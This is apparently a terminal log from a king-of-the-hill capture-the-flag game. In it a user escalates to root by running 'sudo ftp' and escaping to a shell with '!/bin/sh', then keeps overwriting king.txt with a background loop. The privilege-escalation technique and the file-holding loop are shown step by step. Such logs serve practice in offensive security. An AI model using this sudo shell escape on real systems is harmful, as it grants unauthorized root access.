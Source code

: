 sh-4.2$ cd root
sh: cd: root: Permission denied
sh-4.2$ chattr -i root
sh: /usr/bin/chattr: Permission denied
sh-4.2$ nano /etc/sudoers
sh: nano: command not found
sh-4.2$ sudo
usage: sudo -h | -K | -k | -V
usage: sudo -v [-AknS] [-g group] [-h host] [-p prompt] [-u user]
usage: sudo -l [-AknS] [-g group] [-h host] [-p prompt] [-U user] [-u user] [command]
usage: sudo [-AbEHknPS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-u user] [VAR=value] [-i|-s] [<command>]
usage: sudo -e [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-u user] file ...
sh-4.2$ sudo su

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for shifu: 
Sorry, try again.
[sudo] password for shifu: 
Sorry, try again.
[sudo] password for shifu: 
sudo: 3 incorrect password attempts
sh-4.2$ sudo -l
Matching Defaults entries for shifu on panda:
    !visiblepw, always_set_home, match_group_by_gid, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User shifu may run the following commands on panda:
    (root) NOPASSWD: /usr/bin/ftp
sh-4.2$ id
uid=1001(shifu) gid=1001(shifu) groups=1001(shifu)
sh-4.2$ sudo ftp
ftp> !/bin/sh
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.2# cd root
sh-4.2# ls
king.txt  koth
sh-4.2# chattr -i king.txt
sh: /bin/chattr: Permission denied
sh-4.2# echo cyber30 > king.txt
sh-4.2# cat cyber30
cat: cyber30: No such file or directory
sh-4.2# cat king.txt
cyber30
sh-4.2# echo cyber30 > king.txt
sh-4.2# cat king.txt
cyber30
sh-4.2# ( while true; do echo cyber30 > king.txt; sleep 0.2; done ) &
[1] 2063
sh-4.2# cat king.txt
cyber30
sh-4.2# ps aux